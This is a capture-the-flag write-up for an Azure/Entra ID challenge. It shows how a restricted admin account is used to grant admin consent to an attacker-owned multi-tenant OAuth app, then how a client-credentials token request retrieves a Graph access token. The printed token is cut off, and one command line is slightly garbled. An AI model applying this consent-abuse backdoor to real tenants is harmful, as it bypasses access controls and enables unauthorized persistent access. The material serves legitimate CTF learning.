# Breaking The Barriers


Welcome to the Azure/Entra ID phase of the Wiz CTF! "Breaking The Barriers" is a fantastic challenge that shifts the focus from traditional infrastructure to identity exploitation—specifically, the nuances of multi-tenant OAuth applications in Entra ID.




To solve this, we need to understand exactly how Entra ID handles cross-tenant applications. When We create a multi-tenant OAuth app in Tenant A (the attacker tenant), it doesn't automatically exist in Tenant B (the victim tenant). To deploy it into Tenant B, an administrator in Tenant B must **grant consent** to the application. Once consent is granted, Entra ID creates a local "Service Principal" (Enterprise Application) for that OAuth app inside the victim's tenant.

Since the web app creates "heavily restricted" admin users, our goal is likely to manipulate this web app into performing the admin consent on our behalf, or finding a way to use the created admin to bypass their restrictions and grant the consent.




### Environment Recon

Run the following commands in Our CTF shell and paste the output here so we can map out our attack variables and see how the web app behaves:

**1. Dump the Attacker Credentials:**

Let's see the details of the malicious OAuth app we control.

```bash
env | grep AZURE
```




**2. Probe the Web App:**

Let's see what the target endpoint looks like and if it expects any specific parameters (like a GET request, POST payload, or simply gives us instructions).

```bash
echo $WEB_APP_3NDPOINT
curl -s $WEB_APP_3NDPOINT
```




```bash
user@monthly-challenge:~$ env | grep AZURE
AZURE_TENANT_ID=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
AZURE_CLIENT_S3CR3T=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
AZURE_CLIENT_ID=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXS
user@monthly-challenge:~$ echo $WEB_APP_ENDPOINT
https://app-admin-dpbug0fqb4gea3a6.z01.azurefd.net/
user@monthly-challenge:~$ curl -s $WEB_APP_ENDPOINT
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Admin User Generator</title>
  <script src="https://www.google.com/recaptcha/api.js" async defer></script>
  <link href="https://fonts.googleapis.com/css2?family=Inter:wght@400;500;600;700&display=swap" rel="stylesheet">
  <style>
    /* Global Styles */
    * {
      box-sizing: border-box;
    }

    body {
      font-family: 'Inter', -apple-system, BlinkMacSystemFont, 'Segoe UI', sans-serif;
      background-color: #1a1a1e;
      background-image: 
        linear-gradient(#2d5cff 1px, transparent 1px),
        linear-gradient(90deg, #2d5cff 1px, transparent 1px);
      background-size: 60px 60px;
      margin: 0;
      padding: 0;
      display: flex;
      justify-content: center;
      align-items: center;
      min-height: 100vh;
      color: #ffffff;
      overflow-x: hidden;
    }

    .container {
      background: rgba(26, 26, 35, 0.85);
      backdrop-filter: blur(10px);
      border: 1px solid rgba(45, 92, 255, 0.3);
      padding: 48px 40px;
      border-radius: 20px;
      box-shadow: 
        0 8px 32px rgba(0, 0, 0, 0.6),
        0 0 0 1px rgba(45, 92, 255, 0.2);
      width: 100%;
      max-width: 480px;
      position: relative;
      transition: all 0.3s ease;
    }


    h1 {
      font-size: 2.2rem;
      font-weight: 700;
      color: #ffffff;
      text-align: center;
      margin: 0 0 40px 0;
      line-height: 1.2;
    }

    label {
      display: block;
      margin-bottom: 10px;
      font-weight: 600;
      color: #e0e6ed;
      font-size: 0.9rem;
      text-transform: uppercase;
      letter-spacing: 0.8px;
    }

    input[type="text"],
    input[type="password"] {
      width: 100%;
      padding: 18px 20px;
      margin: 0 0 28px 0;
      border-radius: 12px;
      border: 1px solid rgba(45, 92, 255, 0.4);
      font-size: 1rem;
      background: rgba(20, 20, 28, 0.9);
      color: #ffffff;
      font-family: 'Inter', sans-serif;
      transition: all 0.3s ease;
      outline: none;
      box-sizing: border-box;
    }

    input[type="text"]:focus,
    input[type="password"]:focus {
      border-color: #2d5cff;
      box-shadow: 
        0 0 0 3px rgba(45, 92, 255, 0.2),
        0 0 15px rgba(45, 92, 255, 0.4);
      transform: translateY(-2px);
    }

    input[type="text"]::placeholder,
    input[type="password"]::placeholder {
      color: rgba(224, 230, 237, 0.5);
    }

    input[type="submit"] {
      width: 100%;
      padding: 20px 32px;
      margin: 32px 0 0 0;
      border-radius: 50px;
      border: none;
      font-size: 1.1rem;
      font-weight: 600;
      font-family: 'Inter', sans-serif;
      background: #ff6ec7;
      color: #000000;
      cursor: pointer;
      transition: all 0.3s ease;
      text-transform: none;
      letter-spacing: 0px;
      position: relative;
      box-sizing: border-box;
    }

    input[type="submit"]:hover {
      transform: translateY(-2px);
      box-shadow: 0 8px 20px rgba(255, 110, 199, 0.3);
      filter: brightness(1.05);
    }

    input[type="submit"]:active {
      transform: translateY(0px);
    }

    .g-recaptcha {
      margin: 28px 0;
      border-radius: 8px;
      overflow: hidden;
      box-shadow: 0 4px 15px rgba(0, 0, 0, 0.2);
      display: flex;
      justify-content: center;
    }

    .error-message,
    .password-complexity-error,
    .recaptcha-error,
    .rate-limit-error {
      background: rgba(255, 71, 87, 0.1);
      border: 1px solid rgba(255, 71, 87, 0.3);
      border-radius: 10px;
      color: #ff4757;
      font-size: 0.9rem;
      padding: 14px 18px;
      margin-top: 18px;
      display: none;
      backdrop-filter: blur(5px);
      text-shadow: 0 0 10px rgba(255, 71, 87, 0.3);
      animation: errorPulse 2s ease-in-out infinite;
    }

    @keyframes errorPulse {
      0%, 100% { box-shadow: 0 0 5px rgba(255, 71, 87, 0.3); }
      50% { box-shadow: 0 0 15px rgba(255, 71, 87, 0.5); }
    }

    .success-message {
      background: rgba(0, 255, 127, 0.1);
      border: 1px solid rgba(0, 255, 127, 0.3);
      border-radius: 12px;
      color: #00ff7f;
      font-size: 1rem;
      padding: 18px 20px;
      margin-top: 32px;
      text-align: center;
      backdrop-filter: blur(5px);
      text-shadow: 0 0 10px rgba(0, 255, 127, 0.3);
      animation: successPulse 2s ease-in-out infinite;
    }

    @keyframes successPulse {
      0%, 100% { box-shadow: 0 0 5px rgba(0, 255, 127, 0.3); }
      50% { box-shadow: 0 0 15px rgba(0, 255, 127, 0.5); }
    }

    /* Responsive design */
    @media (max-width: 600px) {
      .container {
        margin: 20px;
        padding: 36px 28px;
        max-width: calc(100vw - 40px);
      }
      
      h1 {
        font-size: 1.9rem;
        margin-bottom: 32px;
      }

      input[type="text"],
      input[type="password"] {
        padding: 16px 18px;
        margin-bottom: 24px;
      }

      input[type="submit"] {
        padding: 18px 28px;
        margin-top: 28px;
      }

      .g-recaptcha {
        margin: 24px 0;
      }
    }
  </style>
</head>
<body>
  <div class="container">
    <h1>Create Admin User</h1>

    <form id="userForm">
      <label for="firstName">First Name:</label>
      <input type="text" id="firstName" name="firstName" required>

      <label for="lastName">Last Name:</label>
      <input type="text" id="lastName" name="lastName" required>

      <label for="password">Password:</label>
      <input type="password" id="password" name="password" required>

      <div class="g-recaptcha" data-sitekey="6LfXWpkrAAAAALCOhAlN7ggTcZ9ehVK0ij3Q9v2C"></div>
      <div class="error-message" id="captchaError">Please verify that We're not a robot.</div>
      <div class="recaptcha-error" id="recaptchaError">Please refresh the page and revalidate the captcha.</div>
      <div class="password-complexity-error" id="passwordComplexityError">Password does not comply with complexity requirements. Please provide a different password.</div>
      <div class="rate-limit-error" id="rateLimitError">Too many user creation attempts, please try again later.</div>

      <input type="submit" value="Create User">
    </form>

    <div class="success-message" id="successMessage" style="display: none;">
      User created successfully! <br> Username: <span id="userPrincipalName"></span>
    </div>
  </div>

  <script>
    // Store reCAPTCHA token and validation status
    let recaptchaToken = null;
    let recaptchaValidUntil = null;
    const RECAPTCHA_VALIDITY_MS = 2 * 60 * 1000; // 2 minutes

    document.getElementById('userForm').addEventListener('submit', function(event) {
      event.preventDefault(); // Prevent the default form submission

      const captchaError = document.getElementById('captchaError');
      const recaptchaError = document.getElementById('recaptchaError');
      const passwordComplexityError = document.getElementById('passwordComplexityError');
      const rateLimitError = document.getElementById('rateLimitError');
      const successMessage = document.getElementById('successMessage');

      // Clear previous messages
      captchaError.style.display = 'none';
      recaptchaError.style.display = 'none';
      passwordComplexityError.style.display = 'none';
      rateLimitError.style.display = 'none';
      successMessage.style.display = 'none';

      // Check if reCAPTCHA token is empty and no valid token is stored
      const currentRecaptchaToken = grecaptcha.getResponse();
      if (!currentRecaptchaToken && (!recaptchaToken || Date.now() > recaptchaValidUntil)) {
        captchaError.style.display = 'block';
        return;
      }

      // Use stored token if available and still valid, otherwise use new token
      const tokenToUse = (recaptchaToken && Date.now() <= recaptchaValidUntil) ? recaptchaToken : currentRecaptchaToken;

      // Collect form data
      const formData = new FormData(this);
      formData.append('token', tokenToUse);
      if (recaptchaToken && Date.now() <= recaptchaValidUntil) {
        formData.append('skipRecaptcha', 'true');
      }

      // Send the form data to the backend
      fetch('/create-user', {
        method: 'POST',
        body: new URLSearchParams(formData)
      })
      .then(response => {
        // Check if the response status is not OK
        if (!response.ok) {
          return response.json().then(errorData => {
            throw errorData; // Pass the JSON error data to the catch block
          });
        }
        return response.json();
      })
      .then(data => {
        // Handle success response
        if (data.message) {
          // Clear stored reCAPTCHA token on success
          recaptchaToken = null;
          recaptchaValidUntil = null;
          grecaptcha.reset(); // Reset reCAPTCHA widget
          successMessage.style.display = 'block';
          document.getElementById('userPrincipalName').textContent = data.userPrincipalName;
        } else {
          throw new Error('Unexpected response format');
        }
      })
      .catch(errorData => {
        console.error('Error:', errorData);

        // Handle specific error cases based on the backend's error message
        if (errorData.error) {
          if (errorData.error.includes('Please refresh the page and revalidate the captcha')) {
            // Clear stored token on reCAPTCHA failure
            recaptchaToken = null;
            recaptchaValidUntil = null;
            grecaptcha.reset(); // Reset reCAPTCHA widget
            recaptchaError.style.display = 'block';
          } else if (errorData.error.includes('Password does not comply with complexity requirements')) {
            // Store reCAPTCHA token if validated
            if (errorData.recaptchaValid && tokenToUse && !recaptchaToken) {
              recaptchaToken = tokenToUse;
              recaptchaValidUntil = Date.now() + RECAPTCHA_VALIDITY_MS;
            }
            passwordComplexityError.style.display = 'block';
          } else if (errorData.error.includes('Too many user creation attempts')) {
            rateLimitError.style.display = 'block';
          } else {
            // Display generic error message for other cases
            alert(`Error: ${errorData.error || 'Something went wrong. Please try again.'}`);
          }
        } else {
          // Fallback for unexpected errors
          alert('Something went wrong. Please try again.');
        }
      });
    });
  </script>
</body>
</html>user@monthly-challenge:~$ 
```


The `curl` output reveals that the target endpoint (`https://app-admin-dpbug0fqb4gea3a6.z01.azurefd.net/`) hosts a web form designed to create admin users. 




However, because it is protected by Google reCAPTCHA, interacting with it via `curl` from the shell is going to be a headache. The frontend JavaScript clearly requires a valid captcha token to hit the `/create-user` endpoint.


### The Attack Strategy (Bypassing the Restrictions)

The challenge states that the created admin users are **heavily restricted**. In Azure CTFs, this almost always implies **Conditional Access Policies (CAP)**. If We try to log into the Azure Portal or use the Azure CLI with this newly created admin, We will likely be blocked by policies requiring a trusted IP, a compliant device, or MFA.


**Here is how we bypass that:**
We aren't going to use the restricted admin to steal the flag directly. Instead, we will use the restricted admin *solely* to grant **Admin Consent** to our malicious multi-tenant OAuth app (`f83cb3d7-47de-4154-be65-c85d697cdfd3`). 


Once the admin consents, Entra ID will provision a Service Principal for our app inside the victim's tenant. Service Principals authenticate via Client Credentials (our `AZURE_CLIENT_S3CR3T`) and are **immune** to user-based Conditional Access restrictions! We can then use our app to extract the flag.

### The Workaround

**1. Got to :**

`https://app-admin-dpbug0fqb4gea3a6.z01.azurefd.net/`

**2. Create the Inside Man:**

* Fill in a random First Name and Last Name.
* Provide a strong password (it enforces complexity, so use something like `WizCTF!2026Password`). 

**Remember this password!**

* Solve the reCAPTCHA visually in Our browser.
* Hit "Create User".




Excellent. We've successfully infiltrated the target tenant and secured an administrative identity. 

From that UPN (`0x0z0nXXX@azurectfchallengegame.com`), we now know the victim's tenant domain is **`azurectfchallengegame.com`**. 

Now we execute the core of the exploit. We are going to force this restricted admin to roll out the red carpet for our malicious OAuth application. 

### The Admin Consent Hijack

In Azure/Entra ID, a multi-tenant app from an external tenant can only operate inside a new tenant if an administrator explicitly grants it consent. We will manually construct the consent URL to force the provisioning of our malicious Service Principal.

Here is Our custom Admin Consent payload:

**1. Open an Incognito/Private Browsing Window**

*(This is crucial so We don't accidentally log in with Our personal or corporate Microsoft account).*

**2. Visit the Malicious Consent URL**

```text
https://login.microsoftonline.com/azurectfchallengegame.com/adminconsent?client_id=f83cb3d7-47de-4154-be65-c85d697cdfd3
```

**3. Authenticate as the Inside Man**

* log in using Our newly created UPN: `0x0z0nXXX@azurectfchallengegame.com`
* Enter the password We set during the creation phase.



**4. Grant the Permissions**

We should see a Microsoft prompt asking us to review permissions for the malicious app (it will likely request high-level access like reading directories or managing resources). 

* Click **Accept**.




*(Note: After We click Accept, the browser might redirect to a dead page, `localhost`, or throw a routing error. **This is completely fine and expected.** The moment We click Accept, the consent is registered in the backend).*

### Why This Bypasses the "Heavily Restricted" Defenses

Even if this admin account is shackled by Conditional Access Policies (CAPs) like requiring a trusted IP, a compliant Intune device, or MFA just to open the Azure Portal, the OAuth consent screen is often exempted or can be satisfied just enough to click "Accept." 

Once We click that button, Entra ID creates a local "Enterprise Application" (Service Principal) for our app inside `azurectfchallengegame.com`. 

Because our app will authenticate programmatically using its Client ID and Client Secret, **it is entirely immune to user-based Conditional Access Policies.** We just turned a useless, restricted user into a permanent, highly privileged backdoor.


The backdoor is officially Up. 

By clicking "Accept," We bypassed the user-based Conditional Access Policies completely. Entra ID just provisioned a local Service Principal for Our malicious application inside the victim's tenant (`azurectfchallengegame.com`). 

Because Service Principals authenticate using an Application ID and a Secret (Client Credentials flow) rather than a human username and password, they are effectively ghosts. They bypass MFA, trusted IP restrictions, and device compliance checks.

It is time to mint our access token and extract the flag.

### Token Extraction & Looting

Let's get back to Our restricted CTF terminal. We are going to ask the victim's tenant for an access token using our attacker credentials.

**1. Request the Access Token**

Running this `curl` command. It targets the victim's domain but uses Our pre-loaded `$AZURE_CLIENT_ID` and `$AZURE_CLIENT_S3CR3T`. We will ask for Microsoft Graph API scopes first, as that is where Entra ID data (and usually CTF flags) are stored.


```bash
user@monthly-challecurl -s -X POST "https://login.microsoftonline.com/azurectfchallengegame.com/oauth2/v2.0/token" \oken" \
  -d "client_id=$AZURE_CLIENT_ID" \
  -d "client_secret=$AZURE_CLIENT_S3CR3T" \
  -d "grant_type=client_credentials" \
  -d "scope=https://graph.microsoft.com/.default"
{"token_type":"Bearer","expires_in":3598,"ext_expires_in":3598,"access_token":"eyJ0eXAiOiJKV1QiLCJub25jZSI6Ijc2QVRFOHBzZjQzWXMyT2k0bFV1MmxGS0VEWGoxRzF4TDlGbERTM2t6RU0iLCJhbGciOiJSUzI1NiIsIng1dCI6IlUxc1g4WUZIUzdaNlZsN1ZITEl6VGVqYnZqMCIsImtpZCI6IlUxc1g4WUZIUzdaNlZsN1ZITEl6VGVqYnZqMCJ9.eyJhdWQiOiJodHRwczovL2dyYXBoLm1pY3Jvc29mdC5jb20iLCJpc3MiOiJodHRwczovL3N0cy53aW5kb3dzLm5ldC9kMjZmMzUzZC1jNTY0LTQ4ZTctYjI2Zi1hYTQ4YzZlZWNkNTgvIiwiaWF0IjoxNzc2MDgwOTY3LCJuYmYiOjE3NzYwODA5NjcsImV4cCI6MTc3NjA4NDg2NywiYWlvIjoiQVNRQTIvOGJBQUFBYUNneHFNVDJ4YlUzTG44ZDdoaVV5c2p6ZWMvQi9QTjFvMUVTMnNiWFVydz0iLCJhcHBfZGlzcGxheW5hbWUiOiJtYWxpY2lvdXMtb2F1dGgtYXBwIiwiYXBwaWQiOiJmODNjYjNkNy00N2RlLTQxNTQtYmU2NS1jODVkNjk3Y2RmZDMiLCJhcHBpZGFjciI6IjEiLCJpZHAiOiJodHRwczovL3N0cy53aW5kb3dzLm5ldC9kMjZmMzUzZC1jNTY0LTQ4ZTctYjI2Zi1hYTQ4YzZlZWNkNTgvIiwiaWR0eXAiOiJhcHAiLCJvaWQiOiI5OTY2NzdmOC02OWYxLTQxNzEtYmUwMC0yMDdmM2UwNWZhZWMiLCJyaCI6IjEuQWE0QVBUVnYwbVRGNTBpeWI2cEl4dTdOV0FNQUFBQUFBQUFBd0FBQUFBQUFBQUFBQUFDdUFBLiIsInJvbGVzIjpbIkdyb3VwLlJlYWQuQWxsIiwiVXNlci5JbnZpdGUuQWxsIl0sInN1YiI6Ijk5NjY3N2Y4LTY5ZjEtNDE3MS1iZTAwLTIwN2YzZTA1ZmFlYyIsInRlbmFudF9yZWdpb25fc2NvcGUiOiJFVSIsInRpZCI6ImQyNmYzNTNkLWM1NjQtNDhlNy1iMjZmLWFhNDhjNmVlY2Q1OCIsInV0aSI6InBrWllUZFJkSTA2ZmhMTGsxaE5iQUEiLCJ2ZXIiOiIxLjAiLCJ3aWRzIjpbIjA5OTdhMWQwLTBkMWQtNGFjYi1iNDA4LWQ1Y2E3MzEyMWU5MCJdLCJ4bXNfYWNkIjoxNzUzOTcxOTM3LCJ4bXNfYWN0X2ZjdCI6IjkgMyIsInhtc19mdGQiOiI0QkRPYVdBUEphVDlLOWhxdjliMnM3WURiaEdPZE5sQXVzcndLbHJrQ3JFQlpYVnliM0JsYm05eWRHZ3RaSE50Y3ciLCJ4bXNfaWRyZWwiOiI3IDIiLCJ4bXNfcGZ0ZXhwIjoxNzc2MTcxMjY3LCJ4bXNfcmQiOiIwLjQtTGdZQkppV2NmNG5rbEloSU5WU09DSWQ5VTByUXBkejZWWDE3OVlIc29kTHlUQ3dTNGtFRmN1